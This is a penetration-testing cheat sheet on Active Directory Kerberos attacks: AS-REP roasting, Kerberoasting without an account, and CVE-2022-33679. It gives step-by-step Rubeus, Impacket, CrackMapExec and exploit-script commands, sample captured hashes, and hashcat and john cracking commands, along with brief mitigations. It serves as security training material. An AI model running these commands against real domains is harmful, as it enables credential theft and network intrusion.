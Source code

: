# Roasting - ASREP Roasting

> If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

**Requirements**:
* Accounts with the attribute **DONT_REQ_PREAUTH**
  * Windows/Linux:
    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  
    ```
  * Windows only:
    ```ps1
    PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
    ```

* [Rubeus](https://github.com/GhostPack/Rubeus)
  ```powershell
  C:\Rubeus>Rubeus.exe asreproast /user:TestOU3user /format:hashcat /outfile:hashes.asreproast
  [*] Action: AS-REP roasting
  [*] Target User            : TestOU3user
  [*] Target Domain          : testlab.local
  [*] SamAccountName         : TestOU3user
  [*] DistinguishedName      : CN=TestOU3user,OU=TestOU3,OU=TestOU2,OU=TestOU1,DC=testlab,DC=local
  [*] Using domain controller: testlab.local (192.168.52.100)
  [*] Building AS-REQ (w/o preauth) for: 'testlab.local\TestOU3user'
  [*] Connecting to 192.168.52.100:88
  [*] Sent 169 bytes
  [*] Received 1437 bytes
  [+] AS-REQ w/o preauth successful!
  [*] AS-REP hash:

  $krb5asrep$TestOU3user@testlab.local:858B6F645D9F9B57210292E5711E0...(snip)...
  ```

* [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from Impacket Suite
  ```powershell
  $ python GetNPUsers.py htb.local/svc-alfresco -no-pass
  [*] Getting TGT for svc-alfresco
  $krb5asrep$23$svc-alfresco@HTB.LOCAL:c13528009a59be0a634bb9b8e84c88ee$cb8e87d02bd0ac7a[...]e776b4

  # extract hashes
  root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
  root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
  ```

* CrackMapExec Module
  ```powershell
  $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt
  LDAP        10.0.2.11       389    dc01           $krb5asrep$23$john.doe@LAB.LOCAL:5d1f750[...]2a6270d7$096fc87726c64e545acd4687faf780[...]13ea567d5
  ```

Using `hashcat` or `john` to crack the ticket.

```powershell
# crack AS_REP messages with hashcat
root@kali:impacket-examples$ hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
root@windows:hashcat$ hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt

# crack AS_REP messages with john
C:\Rubeus> john --format=krb5asrep --wordlist=passwords_kerb.txt hashes.asreproast
```

**Mitigations**: 
* All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).



## Kerberoasting w/o domain account

> In September 2022 a vulnerability was discovered by [Charlie Clark](https://exploit.ph/), ST (Service Tickets) can be obtained through KRB_AS_REQ request without having to control any Active Directory account. If a principal can authenticate without pre-authentication (like AS-REP Roasting attack), it is possible to use it to launch an **KRB_AS_REQ** request and trick the request to ask for a **ST** instead of a **encrypted TGT**, by modifying the **sname** attribute in the req-body part of the request.

The technique is fully explained in this article: [Semperis blog post](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/).

:warning: You must provide a list of users because we don't have a valid account to query the LDAP using this technique.

* [impacket/GetUserSPNs.py from PR #1413](https://github.com/fortra/impacket/pull/1413)
  ```powershell
  GetUserSPNs.py -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
  ```
* [GhostPack/Rubeus from PR #139](https://github.com/GhostPack/Rubeus/pull/139)
  ```powershell
  Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"domain.local" /dc:"dc.domain.local" /nopreauth:"NO_PREAUTH_USER" /spn:"TARGET_SERVICE"
  ```


## CVE-2022-33679

> CVE-2022-33679 performs an encryption downgrade attack by forcing the KDC to use the RC4-MD4 algorithm and then brute forcing the session key from the AS-REP using a known plaintext attack, Similar to AS-REP Roasting, it works against accounts that have pre-authentication disabled and the attack is unauthenticated meaning we don’t need a client’s password..

Research from Project Zero : https://googleprojectzero.blogspot.com/2022/10/rc4-is-still-considered-harmful.html

**Requirements**:
* Accounts with the attribute **DONT_REQ_PREAUTH**
  * Windows/Linux:
    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  
    ```
  * Windows only:
    ```ps1
    PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
    ```

* using [CVE-2022-33679.py](https://github.com/Bdenneu/CVE-2022-33679)
  ```bash
  user@hostname:~$ python CVE-2022-33679.py DOMAIN.LOCAL/User DC01.DOMAIN.LOCAL
  user@hostname:~$ export KRB5CCNAME=/home/project/User.ccache
  user@hostname:~$ crackmapexec smb DC01.DOMAIN.LOCAL -k --shares
  ```

**Mitigations**: 
* All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).
* Disable RC4 cipher if possible.


# References

* [Roasting AS-REPs - January 17, 2017 - harmj0y](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
* [Kerberosity Killed the Domain: An Offensive Kerberos Overview - Ryan Hausknecht - Mar 10](https://posts.specterops.io/kerberosity-killed-the-domain-an-offensive-kerberos-overview-eb04b1402c61)